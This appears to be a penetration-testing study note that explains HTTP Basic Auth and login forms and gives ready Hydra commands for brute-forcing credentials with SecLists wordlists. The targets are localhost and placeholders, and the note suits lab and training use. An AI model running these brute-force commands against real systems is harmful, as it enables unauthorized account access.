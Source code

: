 [[Hydra]]
# Basic HTTP Authentication
`Basic Auth` is a rudimentary yet common method for securing resources on the web.

Basic Auth is a challenge-response protocol where a web server demands user credentials before granting access to protected resources. The process begins when a user attempts to access a restricted area. The server responds with a `401 Unauthorized` status and a `WWW-Authenticate` header prompting the user's browser to present a login dialog.

Once the user provides their username and password, the browser concatenates them into a single string, separated by a colon. This string is then encoded using Base64 and included in the `Authorization` header of subsequent requests, following the format `Basic <encoded_credentials>`. The server decodes the credentials, verifies them against its database, and grants or denies access accordingly.

For example, the headers for Basic Auth in a HTTP GET request would look like:
```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```
## Exploiting Basic Auth with Hydra
We can use the `http-get` method with wordlists to attempt to find a username/password combination on a server where we don't know what the specific request is, or we can't see/access where it defines the username/password:
```shell
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt IP_ADRRESS http-get / -s PORT
```

We will use the `http-get` hydra service to brute force the basic authentication target.

If we know the username (`basic-auth-user` in this case), we can simplify the Hydra command and focus solely on brute-forcing the password. Here's the command we'll use:
```bash
# First Download the Wordlist if Needed
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt

# Use Hydra
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```
- `-l basic-auth-user`: This specifies that the username for the login attempt is 'basic-auth-user'.
- `-P 2023-200_most_used_passwords.txt`: This indicates that Hydra should use the password list contained in the file '2023-200_most_used_passwords.txt' for its brute-force attack.
- `127.0.0.1`: This is the target IP address, in this case, the local machine (localhost).
- `http-get /`: This tells Hydra that the target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/').
- `-s 81`: This overrides the default port for the HTTP service and sets it to 81.

Upon execution, Hydra will systematically attempt each password from the `2023-200_most_used_passwords.txt` file against the specified resource.
# Login Forms
## Understanding Login Forms
At their core, login forms are essentially HTML forms embedded within a webpage. These forms typically include input fields (`<input>`) for capturing the username and password, along with a submit button (`<button>` or `<input type="submit">`) to initiate the authentication process.
### http-post-form
Hydra's `http-post-form` service is specifically designed to target login forms. It enables the automation of POST requests, dynamically inserting username and password combinations into the request body.

The general structure of a Hydra command using `http-post-form` looks like this:
```bash
hydra [options] target http-post-form "path:params:condition_string"
```
#### Understanding the Condition String
Hydra primarily relies on failure conditions (`F=...`) to determine when a login attempt has failed, but you can also specify a success condition (`S=...`) to indicate when a login is successful.

The failure condition (`F=...`) is used to check for a specific string in the server's response that signals a failed login attempt:
```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
```

You can also configure Hydra to look for that success condition using `S=` such as when there is a distinct success condition (such as HTTP status code 302):
```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

Similarly, if a successful login results in content like "Dashboard" appearing on the page, you can configure Hydra to look for that keyword as a success condition:
```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"
```
#### Constructing the params String for Hydra
After analyzing the login form's structure and behavior by capturing the request, viewing source code, or monitoring network in dev tools, you can build the params string.

If we've discovered:
- The form submits data to the root path (`/`).
- The username field is named `username`.
- The password field is named `password`.
- An error message "Invalid credentials" is displayed upon failed login.

Therefore, our `params` string would be:
```bash
/:username=^USER^&password=^PASS^:F=Invalid credentials
```
- `"/"`: The path where the form is submitted.
- `username=^USER^&password=^PASS^`: The form parameters with placeholders for Hydra.
- `F=Invalid credentials`: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.

This `params` string is incorporated into the Hydra command as follows. Hydra will systematically substitute `^USER^` and `^PASS^` with values from your wordlists, sending POST requests to the target and analyzing the responses for the specified failure condition:

```bash
# First we download the necessary wordlists
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```
```bash
# Then we can execute the command to bruteforce
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f TARGET_IP -s TARGET_PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```